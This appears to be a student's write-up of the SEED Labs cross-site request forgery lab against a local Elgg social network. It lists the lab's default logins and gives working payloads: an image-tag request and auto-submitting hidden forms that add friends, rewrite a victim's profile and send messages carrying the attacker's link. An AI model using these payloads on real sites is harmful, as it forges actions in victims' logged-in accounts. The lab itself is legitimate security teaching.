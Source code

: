 * Lab Setup

Configure the /etc/hosts file to 

10.9.0.5 www.seed-server.com
10.9.0.5 www.example32.com
10.9.0.105 www.attacker32.com

** Credentials
|----------+-------------|
| Username | Password    |
|----------+-------------|
| admin    | seedelgg    |
|----------+-------------|
| alice    | seedalice   |
|----------+-------------|
| boby     | seedboby    |
|----------+-------------|
| charlie  | seedcharlie |
|----------+-------------|
| samy     | seedsamy    |
|----------+-------------|


* Task 1
** Approach 1
*** Inject malicious link in the image source
#+BEGIN_SRC html
  <html>
    <body>
      <h1>This page forges an HTTP GET request</h1>
      <img src="http://www.seed-server.com/action/friends/add?friend=59" alt="image" width="1" height="1" />
    </body>
  </html>
#+END_SRC

Inserting malicious link in HTTP image tag doesn't work anymore, because of CORB (Cross Origin Read Blocking)
which can ~identify and block dubious cross origin resource loads~ before they even reach the webpage.

** Approach 2
*** Inject malicious javascript with XMLHttpRequest
#+BEGIN_SRC javascript
  <script>
      window.onload=function(){
          var sendurl="http://www.seed-server.com/action/friends/add?friend=59";
          var Ajax=new XMLHttpRequest();
          Ajax.open("GET", sendurl, true);
          Ajax.send();
      }
  </script>
#+END_SRC
Why doesn't the AJAX request from cross origin doesn't work where as form requests from different site works?

** Approach 3
Send data as form requests from attackers site
#+BEGIN_SRC javascript
  <script type="text/javascript">
      function forge_post(){
          var fields;

          // The following are form entries need to be filled out by attackers.
          // The entries are made hidden, so the victim won't be able to see them.
          fields += "<input type='hidden' name='friend' value='59'>";

          // Create a <form> element.
          var p = document.createElement("form");

          // Construct the form
          p.action = "http://www.seed-server.com/action/friends/add";
          p.innerHTML = fields;
          p.method = "get";

          // Append the form to the current page.
          document.body.appendChild(p);

          // Submit the form
          p.submit();
      }

      // Invoke forge_post() after the page is loaded.
      window.onload = function() { forge_post();}
  </script>
#+END_SRC
** Screenshot

[[./screenshots/task-1.png]]


* Task 2
** Part 1

#+BEGIN_SRC javascript
  <script type="text/javascript">
		function forgeRequest() {
			let fields = "";
			fields += `<input type="hidden" name="briefdescription" value="Samy is my hero">`;
			fields += `<input type="hidden" name="accesslevel[briefdescription]" value="2">`;
			fields += `<input type="hidden" name="guid" value="56">`;

			// Create a <form> element.
			var p = document.createElement("form");

			// Construct the form
			p.action = "http://www.seed-server.com/action/profile/edit";
			p.innerHTML = fields;
			p.method = "post";

			// Append the form to the current page.
			document.body.appendChild(p);

			// Submit the form
			p.submit();
		}

		window.onload = () => {
			console.log(document.cookie)
			forgeRequest();
		}
	</script>
#+END_SRC

[[./screenshots/task-2-1.png]]

We can get the guid of Alice by visiting her profile even in logged out mode and get the guid by searching the webpage

[[./screenshots/task-2-1-1.png]]

As we can see here the GUID of Alice's account is 56

** Part 2


* Task 3

#+BEGIN_SRC javascript
	<script type="text/javascript">
		function forgeRequest() {
			let fields = "";
			fields += `<input type="hidden" name="briefdescription" value="Samy is my hero">`;
			fields += `<input type="hidden" name="accesslevel[briefdescription]" value="2">`;
			fields += `<input type="hidden" name="interests" value="Hacking">`;

			fields += `<input type="hidden" name="twitter" value="Geralt">`;
			fields += `<input type="hidden" name="accesslevel[twitter]" value="2">`;
			fields += `<input type="hidden" name="guid" value="56">`;

			// Create a <form> element.
			var p = document.createElement("form");

			// Construct the form
			p.action = "http://www.seed-server.com/action/profile/edit";
			p.innerHTML = fields;
			p.method = "post";

			// Append the form to the current page.
			document.body.appendChild(p);

			// Submit the form
			p.submit();
		}

		window.onload = () => {
			console.log(document.cookie)
			forgeRequest();
		}
	</script>
#+END_SRC

[[./screenshots/task-2-2.png]]

* Task 4
Whenever alice visits the infected link in Samy's profile, a message is sent to Boby with the malicious URL and
Boby eventually becomes a victim of Samy's insidious plans :)
#+BEGIN_SRC javascript
	<script type="text/javascript">
		function forgeRequest() {
			let fields = "";
			fields += `<input type="hidden" name="match_on" value="users">`;
			fields += `<input type="hidden" name="recipients[]" value="57">`;
			fields += `<input type="hidden" name="subject" value="Ha Ha Ha">`;
			fields += `<input type="hidden" name="body" value="www.attacker32.com">`;

			// Create a <form> element.
			var p = document.createElement("form");

			// Construct the form
			p.action = "http://www.seed-server.com/action/messages/send";
			p.innerHTML = fields;
			p.method = "post";

			// Append the form to the current page.
			document.body.appendChild(p);

			// Submit the form
			p.submit();
		}

		window.onload = () => {
			console.log(document.cookie)
			forgeRequest();
		}
	</script>
#+END_SRC

[[./screenshots/task-4.png]]
